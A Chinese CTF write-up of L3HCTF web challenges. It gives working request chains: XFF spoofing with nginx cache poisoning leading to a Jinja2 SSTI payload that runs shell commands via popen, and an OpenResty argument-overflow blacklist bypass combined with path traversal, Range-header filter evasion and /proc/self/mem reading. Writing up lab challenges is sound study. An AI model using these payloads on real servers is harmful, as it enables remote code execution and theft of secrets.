---
title: "L3HCTF-web"
date: 2025-07-12T16:17:39+08:00
summary: "L3HCTF-web"
url: "/posts/L3HCTF-web/"
categories:
  - "赛题wp"
tags:
  - "LitCTF2025"
draft: false
---

## best_profile

把附件下下来看看

```python
import os
import re
import random
import string
import requests
from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    render_template_string,
)
from flask_sqlalchemy import SQLAlchemy
from flask_login import (
    LoginManager,
    UserMixin,
    login_user,
    login_required,
    logout_user,
    current_user,
)
from sqlalchemy.orm import DeclarativeBase
from sqlalchemy.orm import Mapped, mapped_column
from werkzeug.security import generate_password_hash, check_password_hash
from werkzeug.middleware.proxy_fix import ProxyFix
import geoip2.database


class Base(DeclarativeBase):
    pass


db = SQLAlchemy(model_class=Base)


class User(db.Model, UserMixin):
    id: Mapped[int] = mapped_column(primary_key=True)
    username: Mapped[str] = mapped_column(unique=True)
    password: Mapped[str] = mapped_column()
    bio: Mapped[str] = mapped_column()
    last_ip: Mapped[str] = mapped_column(nullable=True)

    def set_password(self, password):
        self.password = generate_password_hash(password)

    def check_password(self, password):
        return check_password_hash(self.password, password)

    def __repr__(self):
        return "<User %r>" % self.name


app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///data.db"
app.config["SECRET_KEY"] = os.urandom(24)
app.wsgi_app = ProxyFix(app.wsgi_app)

db.init_app(app)
with app.app_context():
    db.create_all()

login_manager = LoginManager(app)


def gen_random_string(length=20):
    return "".join(random.choices(string.ascii_letters, k=length))


@login_manager.user_loader
def load_user(user_id):
    user = User.query.get(int(user_id))
    return user


@app.route("/login", methods=["GET", "POST"])
def route_login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if not username or not password:
            return "Invalid username or password."
        user = User.query.filter_by(username=username).first()
        if user and user.check_password(password):
            login_user(user)
            return redirect(url_for("route_profile", username=user.username))
        else:
            return "Invalid username or password."
    return render_template("login.html")


@app.route("/logout")
@login_required
def route_logout():
    logout_user()
    return redirect(url_for("index"))


@app.route("/register", methods=["GET", "POST"])
def route_register():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        bio = request.form["bio"]
        if not username or not password:
            return "Invalid username or password."
        user = User.query.filter_by(username=username).first()
        if user:
            return "Username already exists."
        user = User(username=username, bio=bio)
        user.set_password(password)
        db.session.add(user)
        db.session.commit()
        return redirect(url_for("route_login"))
    return render_template("register.html")


@app.route("/<string:username>")
def route_profile(username):
    user = User.query.filter_by(username=username).first()
    return render_template("profile.html", user=user)


@app.route("/get_last_ip/<string:username>", methods=["GET", "POST"])
def route_check_ip(username):
    if not current_user.is_authenticated:
        return "You need to login first."
    user = User.query.filter_by(username=username).first()
    if not user:
        return "User not found."
    return render_template("last_ip.html", last_ip=user.last_ip)

geoip2_reader = geoip2.database.Reader("GeoLite2-Country.mmdb")
@app.route("/ip_detail/<string:username>", methods=["GET"])
def route_ip_detail(username):
    res = requests.get(f"http://127.0.0.1/get_last_ip/{username}")
    if res.status_code != 200:
        return "Get last ip failed."
    last_ip = res.text
    try:
        ip = re.findall(r"\d+\.\d+\.\d+\.\d+", last_ip)
        country = geoip2_reader.country(ip)
    except (ValueError, TypeError):
        country = "Unknown"
    template = f"""
    <h1>IP Detail</h1>
    <div>{last_ip}</div>
    <p>Country:{country}</p>
    """
    return render_template_string(template)


@app.route("/")
def index():
    return render_template("index.html")


@app.after_request
def set_last_ip(response):
    if current_user.is_authenticated:
        current_user.last_ip = request.remote_addr
        db.session.commit()
    return response


if __name__ == "__main__":
    app.run()

```

使用了ProxyFix中间件

```python
from werkzeug.middleware.proxy_fix import ProxyFix
app.wsgi_app = ProxyFix(app.wsgi_app)
```

ProxyFix中间件的作用是从代理服务器传递的请求头中获取客户端的真实IP地址。该中间件是设置在反向代理后的一个组件，他会读取XFF头并将其设置为REMOTE_ADDR，所以Flask中的request.remote_addr在经过处理后的话实际上取决于XFF头的IP地址

这些路由的话其实很明显能看到`/ip_detail/<string:username>`只有这个路由的渲染是直接渲染的，可以打ssti，然后我们看一下渲染的内容

```python
template = f"""
    <h1>IP Detail</h1>
    <div>{last_ip}</div>
    <p>Country:{country}</p>
    """
```

这里的话last_ip就是请求后的返回响应内容，然后我们看一下请求的路由

```python
@app.route("/get_last_ip/<string:username>", methods=["GET", "POST"])
def route_check_ip(username):
    if not current_user.is_authenticated:
        return "You need to login first."
    user = User.query.filter_by(username=username).first()
    if not user:
        return "User not found."
    return render_template("last_ip.html", last_ip=user.last_ip)
```

更直观点，直接注册一个看看就知道了

`/<string:username>`路由



`/get_last_ip/<string:username>`路由



可以看到返回了一个ip地址，联想到XFF头看看能不能伪造IP



既然可以渲染出来，并且在最后的ip_detail路由下有ssti的存在，更是有对`get_last_ip`的请求，那么可以尝试XFF头的ssti，但是有一个问题，就是这里的请求是不携带Cookie的，也就是说他正常的请求是无法通过`get_last_ip`路由中队用户是否登录的验证的，所以我们需要绕过这个设置，让我们的请求走到我们需要利用的页面

后面看了一下附件里面还有一个nginx的配置文件

```sh
        location ~ .*\.(gif|jpg|jpeg|png|bmp|swf)$ {
            proxy_ignore_headers Cache-Control Expires Vary Set-Cookie;
            proxy_pass http://127.0.0.1:5000;
            proxy_cache static;
            proxy_cache_valid 200 302 30d;
        }

        location ~ .*\.(js|css)?$ {
            proxy_ignore_headers Cache-Control Expires Vary Set-Cookie;
            proxy_pass http://127.0.0.1:5000;
            proxy_cache static;
            proxy_cache_valid 200 302 12h;
        }
```

可以看到，这里如果有`*\.(gif|jpg|jpeg|png|bmp|swf`这类资源的话就会送到nginx缓存中保存30天，那我们就可以利用这个去保存我们自己构造的带有XFF头伪造的get_last_ip路由的网页，例如`/get_last_ip/1.swf`

但是这里需要注意的是一个设置ip的函数

```python
@app.after_request
def set_last_ip(response):
    if current_user.is_authenticated:
        current_user.last_ip = request.remote_addr
        db.session.commit()
    return response
```

这里的话会在每次请求后接收响应内容中的request.remote_addr然后给last_ip赋值，因为前面看中间件的时候我们就知道这里的request.remote_addr取决于XFF头中的IP地址，那我们这个是可以利用的，具体怎么利用呢？往下看就知道了

先注册一个1.swf的用户并登录，登录后抓包

```http
GET //get_last_ip/1.swf HTTP/1.1
Host: 61.147.171.103:63956
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://61.147.171.103:63956/login
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
X-Forwarded-For: {{8*8}}
Cookie: session=.eJwlzssNwkAMBcBe9szB9v5smok29rPgmsAJ0TuRKGCk-ZQtD5yPcn8db9zK9oxyLy7CYUC3umZKV7eGCo5MC--LbWaXRTl8RkBqsFLbfaiCrS9XrMlV-xQNwGxSVEvYJRNOIzWEqO5K4g2JVTXbPghtDm5arsj7xPHfcPn-ABXhL_k.aHI2Pg.xKU7v5-b5PDNBQl_5CJpvEsp8NA
Connection: keep-alive


```

改一下路由，然后添加XFF头，这里的话有人会问为什么是`//get_last_ip/1.swf`而不是`/get_last_ip/1.swf`，这里的话就是为了set_last_ip函数的执行赋值操作，那么这次发包之后我们的last_ip就变成`{{8*8}}`了，然后我们再改回去

```http
GET /get_last_ip/1.swf HTTP/1.1
Host: 61.147.171.103:63956
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://61.147.171.103:63956/login
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=.eJwlzssNwkAMBcBe9szB9v5smok29rPgmsAJ0TuRKGCk-ZQtD5yPcn8db9zK9oxyLy7CYUC3umZKV7eGCo5MC--LbWaXRTl8RkBqsFLbfaiCrS9XrMlV-xQNwGxSVEvYJRNOIzWEqO5K4g2JVTXbPghtDm5arsj7xPHfcPn-ABXhL_k.aHI2Pg.xKU7v5-b5PDNBQl_5CJpvEsp8NA
Connection: keep-alive


```



这样的话就是成功设置好了，那这里又有人要问，既然这里的last_ip已经改了，为什么还要访问一次`/get_last_ip/1.swf`？其实就是为了避免在/ip_detail路由下的get请求访问到的是本地请求的/get_last_ip/1.swf而不是我们自己的/get_last_ip/1.swf，这里发包之后就会根据nginx配置文件的规则存入缓存，这样后面get请求的话也就会请求缓存的文件。

最后我们访问/ip_detail/1.swf就可以发现成功ssti



然后后面的话打ssti发现引号被过滤了，那我们就用request外带去绕过

```http
GET //get_last_ip/3.swf HTTP/1.1
Host: 61.147.171.105:59182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://61.147.171.105:59182/login
X-Forwarded-For: {{lipsum.__globals__[request.args.a].popen(request.args.b).read()}}
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=.eJwlzssNwkAMBcBe9szBa-_HpploYz8LrgmcEL0TiQJGmk_Z8sD5KPfX8catbM8o9-LMNQzoJmsmd3VrENTItPC-qs3svCiHzwiwRFVquw9VVOvLFWtW0T5ZAzCbFGIJu2TCaaQGE8muxN6QWKLZ9kFoc9Sm5Yq8Txz_jZTvDxXnL_s.aHJn5A.2iWFkAUbTpjti5vB8XeT1loDExA
Connection: keep-alive


```



然后传入a和b就行

```http
?a=os&b=tac /flag
```



## gateway_advance（部分复现）

看看源码中有nginx的配置文件，里面是Lua脚本

```lua
worker_processes 1;

events {
    use epoll;
    worker_connections 10240;
}

http {
    include mime.types;
    default_type text/html;
    access_log off;
    error_log /dev/null;
    sendfile on;

    init_by_lua_block {
        f = io.open("/flag", "r")
        f2 = io.open("/password", "r")
        flag = f:read("*all")
        password = f2:read("*all")
        f:close()
        password = string.gsub(password, "[\n\r]", "")
        os.remove("/flag")
        os.remove("/password")
    }

    server {
        listen 80 default_server;
        location / {
            content_by_lua_block {
                ngx.say("hello, world!")
            }
        }

        location /static {
            alias /www/;
            access_by_lua_block {
                if ngx.var.remote_addr ~= "127.0.0.1" then
                    ngx.exit(403)
                end
            }
            add_header Accept-Ranges bytes;
        }

        location /download {
            access_by_lua_block {
                local blacklist = {"%.", "/", ";", "flag", "proc"}
                local args = ngx.req.get_uri_args()
                for k, v in pairs(args) do
                    for _, b in ipairs(blacklist) do
                        if string.find(v, b) then
                            ngx.exit(403)
                        end
                    end
                end
            }
            add_header Content-Disposition "attachment; filename=download.txt";
            proxy_pass http://127.0.0.1/static$arg_filename;
            body_filter_by_lua_block {
                local blacklist = {"flag", "l3hsec", "l3hctf", "password", "secret", "confidential"}
                for _, b in ipairs(blacklist) do
                    if string.find(ngx.arg[1], b) then
                        ngx.arg[1] = string.rep("*", string.len(ngx.arg[1]))
                    end
                end
            }
        }

        location /read_anywhere {
            access_by_lua_block {
                if ngx.var.http_x_gateway_password ~= password then
                    ngx.say("go find the password first!")
                    ngx.exit(403)
                end
            }
            content_by_lua_block {
                local f = io.open(ngx.var.http_x_gateway_filename, "r")
                if not f then
                    ngx.exit(404)
                end
                local start = tonumber(ngx.var.http_x_gateway_start) or 0
                local length = tonumber(ngx.var.http_x_gateway_length) or 1024
                if length > 1024 * 1024 then
                    length = 1024 * 1024
                end
                f:seek("set", start)
                local content = f:read(length)
                f:close()
                ngx.say(content)
                ngx.header["Content-Type"] = "application/octet-stream"
            }
        }
    }
}
```

这里的话有三个路由，/static路由是无法访问的，/download路由是下载文件的，并且指向/static路由，但是这里的话有黑名单

```lua
        location /download {
            access_by_lua_block {
                local blacklist = {"%.", "/", ";", "flag", "proc"}
                local args = ngx.req.get_uri_args()
                for k, v in pairs(args) do
                    for _, b in ipairs(blacklist) do
                        if string.find(v, b) then
                            ngx.exit(403)
                        end
                    end
                end
        }
```

先看对URL参数的过滤上，主要是过滤了`.`、`/`、`;`、`flag`、`proc`，避免了一些目录穿越，但是注意到一个ngx.req.get_uri_args()，然后找到了这个函数的一个默认配置的漏洞

https://github.com/p0pr0ck5/lua-resty-waf/issues/280

https://forum.butian.net/share/91

通过ngx.req.get_uri_args获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测

```http
/download?a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a99=99&a100=100&filename=../etc/passwd
```



我们看一下返回逻辑

```lua
            add_header Content-Disposition "attachment; filename=download.txt";
            proxy_pass http://127.0.0.1/static$arg_filename;
            body_filter_by_lua_block {
                local blacklist = {"flag", "l3hsec", "l3hctf", "password", "secret", "confidential"}
                for _, b in ipairs(blacklist) do
                    if string.find(ngx.arg[1], b) then
                        ngx.arg[1] = string.rep("*", string.len(ngx.arg[1]))
                    end
                end
            }
```

这里的话会对返回内容进行一定的过滤，这时候怎么绕过呢？

这里可以用Range请求头去控制返回内容

```html
Range: bytes=<start>-<end>
允许客户端指定需要获取的资源字节范围，实现断点续传和分块下载功能。
```



因为是在内存中的，并且原文件已经删除了，所以我们遍历一下，最终在/proc/self/fd/6找到打开文件的进程

```html
GET /download?a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a99=99&a100=100&filename=../proc/self/fd/6 HTTP/1.1
Host: 43.138.2.216:17794
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36


```

然后用Range分片读取一下内容去绕过内容检测



最终拿到password密码为passwordismemeispasswordsoneverwannagiveyouup

拿到密码后就可以操作/read_anywhere路由了

```lua
location /read_anywhere {
            access_by_lua_block {
                if ngx.var.http_x_gateway_password ~= password then
                    ngx.say("go find the password first!")
                    ngx.exit(403)
                end
            }
            content_by_lua_block {
                local f = io.open(ngx.var.http_x_gateway_filename, "r")
                if not f then
                    ngx.exit(404)
                end
                local start = tonumber(ngx.var.http_x_gateway_start) or 0
                local length = tonumber(ngx.var.http_x_gateway_length) or 1024
                if length > 1024 * 1024 then
                    length = 1024 * 1024
                end
                f:seek("set", start)
                local content = f:read(length)
                f:close()
                ngx.say(content)
                ngx.header["Content-Type"] = "application/octet-stream"
            }
        }
```

这里的话需要传入四个请求头

- `X-Gateway-Password` 的 HTTP 头的值就是我们刚刚获取到的password

- `X-Gateway-Filename` HTTP 头的值就是我们想要读取的**文件路径**。
- `X-Gateway-Start` HTTP 头的值。这个头预期指定从文件开始读取的**起始字节偏移量**。
- `X-Gateway-Length` HTTP 头的值，指定要**读取的字节数**。

```html
X-Gateway-Password: passwordismemeispasswordsoneverwannagiveyouup
X-Gateway-Filename: /etc/passwd
```



然后我们需要在进程里面找文件，先通过 /proc/self/maps 获得当前进程虚拟地址映射

**`/proc/[PID]/maps`**: 显示该进程的内存映射信息，包括加载的库文件和可执行文件等。



看到一个删除操作

```http
7eeead51f000-7eeead520000 rw-s 00000000 00:01 3170                       /dev/zero (deleted)
```

然后我们读一下/proc/self/mem

**`/proc/[PID]/mem`**: 代表该进程的内存映像。

```php
X-Gateway-Password: passwordismemeispasswordsoneverwannagiveyouup
X-Gateway-Filename: /proc/self/mem
X-Gateway-Start: 0x7eeead51f000
X-Gateway-Length: 200000
```



```
L3HCTF{g4t3way_st1ll_n0t_s3cur3}
```

## gogogo出发喽（复现）

Laravel框架的代码审计

本来搜了一下CVE，看到一个RCE

https://www.freebuf.com/vuls/264662.html

